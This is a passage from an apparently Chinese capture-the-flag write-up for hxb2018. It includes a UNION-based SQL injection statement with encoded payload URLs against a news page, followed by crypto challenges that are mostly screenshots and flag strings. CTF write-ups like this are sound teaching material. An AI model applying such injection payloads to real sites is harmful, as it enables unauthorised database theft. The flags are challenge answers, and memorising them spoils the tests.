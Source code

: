 ​       payload: /news/list.php?id=eGdkNThpcFRybng4VnpTQkppY3FDamtLbjk5ZUsvTkV5cEY5bjBSUGJEOFlaZjExMXovODJUaTF2R1JEMVFwbjl3Mkk2N1BrSE8wNnd1aExrcDVMM0kwMEY1c01iRzlCZUtzTlExT0l0d1Ywc2JmcDdPZnFZeFNnRkVwYmRBbVhtZksxZ0l3d1JlRWt6aUVGbW94MEovR1hpUTk1T1NXRFlYam45ZHNpaGtrPQ

 

​       回显:![img]({{site.baseurl}}/assets/images/01/clip_image028.jpg) 4 . 查字段值

​       注入语句：-1 union select 1,2,concat(id,0x2d,title),4 from notice2 --+

​       payload:  /news/list.php?id=eGdkNThpcFRybng4VnpTQkppY3FDbVd0dGlsUUFsY2RMVkR

 

## 4、题目名 HighwayHash64

解题思路、相关代码和Flag截图：

 

![img]({{site.baseurl}}/assets/images/01/clip_image029.jpg) 

![img]({{site.baseurl}}/assets/images/01/clip_image030.jpg) 

![img]({{site.baseurl}}/assets/images/01/clip_image031.jpg) 

![img]({{site.baseurl}}/assets/images/01/clip_image032.jpg)![img]({{site.baseurl}}/assets/images/01/clip_image033.jpg) 

 

![img]({{site.baseurl}}/assets/images/01/clip_image034.jpg) 

 

hxb2018{9352641078}

 

## 5、题目名 Common Crypto

解题思路、相关代码和Flag截图：

 

sbox 确定aes

 

![img]({{site.baseurl}}/assets/images/01/clip_image035.jpg) 

![img]({{site.baseurl}}/assets/images/01/clip_image036.jpg) 

 

![img]({{site.baseurl}}/assets/images/01/clip_image037.jpg) ![img]({{site.baseurl}}/assets/images/01/clip_image038.jpg)

hxb2018{d9e801ec

30386334623434393136633963356136

 
